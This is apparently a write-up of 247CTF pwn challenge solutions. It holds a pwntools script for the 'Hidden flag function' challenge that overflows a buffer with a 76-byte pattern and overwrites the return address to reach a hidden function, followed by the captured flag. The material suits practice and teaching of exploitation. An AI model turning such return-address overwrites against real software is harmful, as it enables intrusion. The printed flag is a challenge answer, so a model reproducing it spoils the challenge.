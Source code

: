 ## 247/CTF - pwn solutions
https://247ctf.com/

### Hidden flag function

```python
from pwn import *

io = remote('513cee9f2f0c29f5.247ctf.com', 50166)
# io = process('./hidden_flag_function')
# io = gdb.debug('./hidden_flag_function', 'b*chall+46')

payload = cyclic(76)
payload += p32(0x08048576)
io.sendline(payload)
io.interactive()

# 247CTF{b1c2cb7d5a43939f8dc73369ec2dd59d}
```
